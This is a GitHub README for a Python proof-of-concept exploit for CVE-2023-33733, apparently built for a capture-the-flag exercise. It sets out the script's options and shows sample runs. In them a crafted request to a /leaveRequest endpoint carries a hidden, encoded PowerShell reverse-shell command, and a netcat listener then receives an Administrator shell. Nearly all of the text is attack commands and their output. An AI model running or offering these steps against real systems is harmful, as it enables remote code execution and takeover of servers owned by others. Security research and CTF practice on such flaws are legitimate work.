 # CVE-2023-33733-POC

# Disclamer
I did not, nor do I take credit for finding this vulnerability.  This is simply a script I built to more easily exploit this vulnerability for a CTF.
For the oiriginal information please reference: https://github.com/c53elyas/CVE-2023-33733


This script is simply intended to be a quick Python3 Script to exploit CVE-2023-33733.  You will need to provide the host, port, command, and a valid session cookie.


# Help Menu
```
kali@kali:~/Desktop$ python3 exp.py --help 
usage: foothold.py [-h] --host HOST --port PORT --cmd CMD --session SESSION

options:
  -h, --help            show this help message and exit
  --host HOST
  --port PORT, -p PORT
  --cmd CMD, -c CMD
  --username USERNAME, -u USERNAME
  --password PASSWORD, -ps PASSWORD
  --session SESSION, --cookie SESSION, -sc SESSION
                        Session cookie
```

# Usage
```
kali@kali:~/Desktop$ python3 exp.py --host "vuln.server" --port 80 --cmd "powershell -nop -w hidden -e <your revshell code here>" --username "<your username here>" --password "<your password here>"
[*] Logging in to http://vuln.server:80
Retreived session cookie: SESSION=...
[*] Extracting session token...
[*] Token extracted:  .abc.xyz
[*] Building Exploit...
[*] Exploit built
[*] Preparing request
[*] Sending request to http://vuln.server:80/leaveRequest
[*] Sending a reverse shell should cause request to hang
[*] Request sent
[*] Probable success. Status Code 504


kali@kali:~/Desktop$ python3 exp.py --host "vuln.server" --port 80 --cmd "powershell -nop -w hidden -e <your revshell code here>" --session "<your cookie here>"
[*] Building Exploit...
[*] Exploit built
[*] Preparing request
[*] Sending request to http://vuln.server:80/leaveRequest
[*] Sending a reverse shell should cause request to hang
[*] Request sent
[*] Probable success. Status Code 500


# Listener
kali@kali:~/Desktop$ nc -lnvp 9001
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.1] 50246
whoami
Administrator
```
